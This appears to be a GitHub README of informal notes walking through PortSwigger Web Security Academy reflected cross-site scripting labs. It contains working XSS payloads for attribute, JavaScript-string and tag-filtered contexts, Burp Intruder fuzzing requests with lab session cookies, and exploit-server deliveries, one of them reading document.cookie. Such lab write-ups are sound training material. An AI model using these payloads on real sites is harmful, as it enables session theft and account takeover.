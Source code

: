 ## XXX(Cross-site scripting)

Cross-site scripting (also known as XSS) is a web security vulnerability that allows an attacker to compromise the interactions
that users have with a vulnerable application. It allows an attacker to circumvent the same origin policy,
which is designed to segregate different websites from each other. Cross-site scripting vulnerabilities
normally allow an attacker to masquerade as a victim user, to carry out any actions that the user is able to perform, and to access any of the user's data.
If the victim user has privileged access within the application,
then the attacker might be able to gain full control over all of the application's functionality and data. 


## 1. Reflected XSS into HTML context with nothing encoded

You Have a Search Funtion and search like asif and intercept the request and sand the repeter and Observe that asif is reflected in html like

    <h1>
    0 search results for 'asif'
    </h1>
     

 ## This is Vulnerably

 ## 2. Reflected XSS into attribute with angle brackets HTML-encoded
 
 You Have a Search Funtion and search like asif and intercept the request and sand the repeter and Observe that asif is reflected in html input filed like
 
    <input type=text placeholder='Search the blog...' name=search value="asif">

Notice That 

    name=search value="asif" 
    
 The asif is double '' so use the paylods like double '' for example 
 
    "onmouseover="alert(1)
    
 
 ## This is Vulnerably
 
 
 ## 3. Reflected XSS into a JavaScript string with angle brackets HTML encoded 
 
 You Have a Search Funtion and search like asif and intercept the request and sand the repeter and Observe that asif is reflected in JavaScript filed like
 
    <script>
    var searchTerms = 'asif';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
    </script>
 
 Paylods 
 
    '-alert(1)-'
 
 
 ## This is vulnerably 
 
 
 ## 4. Reflected XSS into HTML context with most tags and attributes blocked
 
 You Have a Search Funtion and search like asif and intercept the request and sand the repeter and Observe that asif is reflected in html This is 
 vulnerably and Inject a standard XSS paylods Observe that this gets blocked most html tages attributes are blocked.
 
You Have a Search Funtion and search like asif and intercept the request and sand the intruder and remove asif and add <> and set paylods in <> like <$$> 
 
    GET /?search=<$$> HTTP/1.1
    Host: 0a130031045b2eeac06b090600110008.web-security-academy.net
    Cookie: session=Xvy6OLwWRumjRFxHQqruIfV77mnV5YmN
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: https://0a130031045b2eeac06b090600110008.web-security-academy.net/
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Te: trailers
    Connection: close
 
Visit the XSS cheat sheet and click "Copy tags to clipboard". 

In Burp Intruder, in the Payloads tab, click "Paste" to paste the list of tags into the payloads list. Click "Start attack".

When the attack is finished, review the results. Note that all payloads caused an HTTP 400 response, except for the body payload, which caused a 200 response. 

## body tags is 200 Ok

Go back to the Positions tab in Burp Intruder and replace your search term and set paylods position <body%20&&=1> like 

    GET /?search=<body%20§§=1> HTTP/1.1
    Host: 0ac4000e03c21f41c110a9200039006d.web-security-academy.net
    Cookie: session=743GVgVjqrfVKWWEuPfUvbDnYFHCsM5l
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: https://0ac4000e03c21f41c110a9200039006d.web-security-academy.net/
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Te: trailers
    Connection: close
   

 Visit the XSS cheat sheet and click "copy events to clipboard".
 
 In Burp Intruder, in the Payloads tab, click "Clear" to remove the previous payloads. Then click "Paste" to paste the list of attributes into the  payloads list. Click "Start attack".
 
 When the attack is finished, review the results. Note that all payloads caused an HTTP 400 response, except for the onresize payload, which caused a 200 response. 
 
 ## onresize 200 ok
 
 Go to the exploit server and paste the following code, replacing your-lab-id with your lab ID: 
 
    <iframe src="https://your-lab-id.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
     
  Click "Store" and "Deliver exploit to victim". 
 
 
 ## 5. Reflected XSS into HTML context with all tags blocked except custom ones
 
  Go to the exploit server and paste the following code, replacing your-lab-id with your lab ID: 
  
    <script>
    location = 'https://your-lab-id.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
    </script>
  
 Click "Store" and "Deliver exploit to victim".
 
 
 ## 6. Reflected XSS into a JavaScript string with single quote and backslash escaped
 
 You Have a Search Funtion and search like asif and intercept the request and sand the repeter and Observe that asif is reflected in JavaScript string
 
 Try Search like 
 
     asif'khan
     
and observe that your single quote gets backslash-escaped, preventing you from breaking out of the string. like

    <h1>
    0 search results for 'asif&apos;khan'
    </h1>
    
    <script>
    var searchTerms = 'asif\'khan';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
    </script>
    
You search asif'khan but respotion in html 'asif&apos;khan' in JavaScript respotion 'asif\'khan'; 

so i am useing These Script 

    </script><script>alert(1)</script>
    
    
    
    
    
    
    
    
    
    
 
 
